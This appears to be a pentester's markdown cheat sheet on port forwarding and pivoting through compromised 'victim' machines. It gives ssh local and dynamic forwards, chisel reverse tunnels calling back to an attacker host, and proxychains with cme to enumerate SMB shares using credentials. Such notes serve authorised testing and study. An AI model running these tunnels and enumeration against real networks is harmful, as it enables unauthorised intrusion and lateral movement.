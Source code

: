 # Port Forwarding & Tunneling
--------

### Local Portforward
- Forward a single port from our machine to the victim machine.
A web server running on victim machine's port 8888 can be accessed locally on our machine's port 4444
```bash
ssh -L 4444:2.2.2.2:8888 user@2.2.2.2
```

On a new line hold shift and type `~C` to drop into the ssh prompt
```bash
ssh> -L 8001:192.168.122.4:80
```

Using **chisel**
```bash
./chisel_linux server -p 8080 -reverse
```

```cmd
chis.exe client 192.168.49.197:8080 R:8001:127.0.0.1:80 
```

Client makes a connection to chisel server running on port 8080 and forwards localhost 80 on victim machine to remote 8081 (attacker 8081)

----------------------

### Dynamic Portforward
Forwarding all traffic from our machine to the victim using another compromised machine as tunnel. (using socks proxy)
For use w proxychains.

Using **ssh**
```bash
ssh -N -D 127.0.0.1:1080 sean@10.11.1.251
```

where 1080 is the IP address where socks5 proxy (proxychains) is running.

#### SOCKS5 + Chisel
- Set up  socks5 proxy in proxychains conf
Server:
```bash
./chisel_linux server -p 8080 -reverse
```

Client:
```cmd
.\chisel.exe client 10.10.10.10:8080 R:socks
```

Now use proxychains and cme to access shares:
```bash
proxychains cme smb 192.168.137.138 -u cbbn -p something --shares
```

https://blog.lukasec.ch/posts/pivoting.html

-------------


- [ ] include stuff from netsh!!!!!!
https://porterhau5.com/blog/native-port-forwarding-windows/

https://erev0s.com/blog/ssh-local-remote-and-dynamic-port-forwarding-explain-it-i-am-five/